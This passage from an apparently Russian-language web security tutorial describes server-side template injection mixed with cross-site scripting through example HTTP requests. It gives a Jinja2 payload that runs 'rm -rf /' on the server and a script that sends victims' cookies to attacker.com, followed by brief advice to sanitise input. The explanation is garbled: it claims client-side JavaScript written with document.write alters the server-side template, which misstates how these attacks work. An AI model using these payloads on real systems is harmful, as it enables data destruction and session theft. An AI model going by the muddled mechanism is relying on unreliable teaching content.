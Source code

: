 ```none
GET /search?query=<script>document.write('{{5*5}}')</script> HTTP/1.1
Host: example.com
```



В этой полезной нагрузке злоумышленник вводит ‘`<script>`‘тег, который будет выполняться на стороне клиента. Код JavaScript внутри тега изменит шаблон на стороне сервера, введя выражение ‘`{{5*5}}`‘. Это приведет к тому, что сервер вернет результат выражения, которым является число‘`25`‘.

Злоумышленник также может внедрить более вредоносный код JavaScript, например:

```none
GET /search?query=<script>document.write('{{''.__class__.__mro__[1].__subclasses__()[313].__init__.__globals__['__builtins__']['__import__']('os').system('rm -rf /')}}')</script> HTTP/1.1
Host: example.com
```



В этой полезной нагрузке злоумышленник вводит код JavaScript, который будет выполняться на стороне клиента, и изменяет шаблон на стороне сервера для выполнения команды оболочки, которая удалит все файлы на сервере. Очевидно, что это очень опасная полезная нагрузка.

Злоумышленник также может внедрить более сложный сценарий на стороне клиента, например:

```none
GET /search?q=<script>fetch('http://attacker.com/cookie?cookie='+document.cookie)</script>{{1}} HTTP/1.1
Host: example.com
```



В этой полезной нагрузке злоумышленник внедряет клиентский скрипт, который будет использовать ‘`fetch()`‘функция отправки файлов cookie жертвы на удаленный сервер, контролируемый злоумышленником. Это может позволить злоумышленнику осуществить перехват сеанса или другие атаки.

Разработчикам важно правильно очищать и проверять весь пользовательский ввод, чтобы предотвратить атаки SSTI в своих веб-приложениях, включая внедрение скриптов на стороне клиента. Это можно сделать путем фильтрации или экранирования любого пользовательского ввода, который используется в серверных шаблонах или клиентских сценариях.

**ОТПРАВИТЬ запрос**

В этом типе атаки SSTI злоумышленник может внедрить вредоносный код JavaScript в шаблон на стороне сервера, используя атаку межсайтового скриптинга (XSS). Вот пример запроса POST в Burp Suite с внедрением шаблона через уязвимость SSTI для сценариев на стороне клиента:

```none
POST /submit_form HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

form_data=<script>document.write('{{user_input}}')</script>
```



В этом примере `form_data` параметр используется для отправки скрипта, который вводит ‘`{{user_input}}`‘ значение в шаблоне на стороне сервера с использованием ‘`document.write`‘ функция. Если шаблон на стороне сервера не выполняет надлежащую очистку и проверку этих входных данных, злоумышленник потенциально может внедрить другой вредоносный код JavaScript, который может быть выполнен на сервере.
